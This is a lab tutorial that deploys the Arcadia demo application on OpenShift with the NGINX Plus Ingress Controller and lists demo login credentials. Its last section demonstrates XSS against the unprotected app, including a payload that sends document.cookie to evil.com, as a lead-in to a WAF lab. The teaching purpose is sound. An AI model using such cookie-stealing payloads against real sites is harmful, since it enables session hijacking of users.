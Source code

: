 Access Arcadia app without NGINX App Protect
------------------------------------------------


Publish Arcadia app with NGINX Plus Ingress Controller
#######################################################
1. Deploy the Arcadia Application into Kubernetes

   The Arcadia Application deployment is a single manifest file containing the resources need to build.

   - Kubernetes deployment for the four docker containers
   - Kubernetes services for the four docker containers

   Get the yaml file. In the terminal window, copy the below text and paste+enter:

   .. code-block:: bash

    wget https://raw.githubusercontent.com/ericzji/nginx-openshift-lab/main/docs/class1/module4/templates/arcadia-all.yaml

   Apply the updated yaml file. In the terminal window, copy the below text and paste+enter:

   .. code-block:: bash

      oc apply -f ./arcadia-all.yaml


2. Arcadia application Kubernetes objects

   In the terminal window, copy the below text and paste+enter:

   .. code-block:: bash

      oc get services

   Example:

3.  Export the NGINX Ingress Controller services

    Interacting with the NGINX Ingress Controller is more comfortable with exporting the service External IPs into system variables. This allows for templating to take place when we expose our applications.

    In the terminal window copy the below text and paste+enter:

    .. code-block:: bash

       export dashboard_nginx_ingress=$(oc get svc dashboard-nginx-ingress --namespace=nginx-ingress | tr -s " " | cut -d' ' -f4 | grep -v "EXTERNAL-IP")

    .. code-block:: bash

       export nginx_ingress=$(oc get svc my-nginx-ingress-controller-nginx-ingress --namespace=nginx-ingress | tr -s " " | cut -d' ' -f4 | grep -v "EXTERNAL-IP")


4. Publish Arcadia app with NGINX Plus Ingress Controller

   Re-create NGINX Ingress Controller with Basic HTTP:

   In the terminal window, copy the below text and paste+enter:

   .. literalinclude :: templates/ingress-arcadia.yml
      :language: yaml



Access the Arcadia application
#################################
launch a Firefox browser and click on the Arcaida Finance bookmark.

You should be presented with the Main page, click on Login and enter the credentials as below.

.. code-block:: 

    Username: matt
    Password: ilovef5

When you click on Log me in, you should be presented with Arcadia application that consist of four microservices


.. image:: ./pictures/image10.png
   :align: center

Congratulations!

You have now successfully deployed the application in K8s cluster and published it externally using the NGINX Plus Ingress controller


Is our application protected against Layer 7 attacks?
######################################################
 
We deployed and published the application, but is our application protected against web application attacks? Let's find out by executing a simple XSS attack. XSS is one of the well know OWASP top 10 attack.

- Launch the Firefox browser and execute a XSS attack by appending the ``?a=<script>`` to the end of application URL, you should see the request is allowed.

.. image:: ./pictures/image11.png
   :align: center

- Execute another attack by appending ``?item='><script>document.location='http://evil.com/steal'+document.cookie</script>`` to the application URL, this request is also allowed and a bad actor has successfully stealed your document cookie by luring you to his website.

.. image:: ./pictures/image12.png
   :align: center

Now that we know our application is vulnerable to Layer 7 attacks, we will address this in this Lab and protect our application using NGINX App Protect (NAP)

